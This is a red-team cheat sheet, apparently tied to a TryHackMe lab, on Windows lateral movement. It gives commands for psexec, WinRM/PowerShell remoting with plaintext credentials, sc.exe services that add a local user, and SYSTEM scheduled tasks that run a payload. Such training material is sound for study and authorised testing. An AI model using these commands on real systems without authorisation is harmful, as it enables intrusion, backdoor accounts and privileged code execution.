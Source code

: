 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

``` ```
``` ```
## Psexec

Ports: 445/TCP (SMB)
Required Group Memberships: Administrators
Part of sysinternals 

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

Ports:
135/TCP, 49152-65535/TCP (DCE/RPC)
445/TCP (RPC over SMB Named Pipes)
139/TCP (RPC over SMB Named Pipes)
Required Group Memberships: Administrators

###### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

######  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

###### To create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


###### Delete the scheduled task
```
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
